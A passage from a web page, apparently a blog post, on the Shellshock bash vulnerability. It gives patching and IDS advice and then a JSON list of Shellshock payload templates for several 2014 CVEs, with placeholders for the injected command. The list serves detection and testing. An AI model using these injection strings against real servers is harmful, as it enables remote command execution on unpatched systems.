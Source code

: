 

<h3 class="wp-block-heading" id="kak-reshit-problemu">How to solve a problem?</h3>



<p>First of all, you need to update the version of the bash environment.&nbsp;Patches for this&nbsp;<a href="https://cryptodeeptech.ru/blockchain-attack-vectors/">vulnerability</a>&nbsp;are available on various Linux distributions.&nbsp;And even though not all patches have proven to be 100% effective to date, you should start by installing them.</p>



<p>If you are using any intrusion detection and/or prevention system, it is also recommended to add/download a signature for this threat.&nbsp;Many public rules have been published.</p>



<p>Finally, check your web server configuration.&nbsp;If there are unused CGI scripts, consider disabling them.</p>



<pre class="wp-block-code"><code>{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=&gt;\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } &gt;_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } &lt;&lt;a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h3 class="wp-block-heading" id="est-li-ugroza-dlya-onlajn-bankinga">Is there a threat to online banking?</h3>

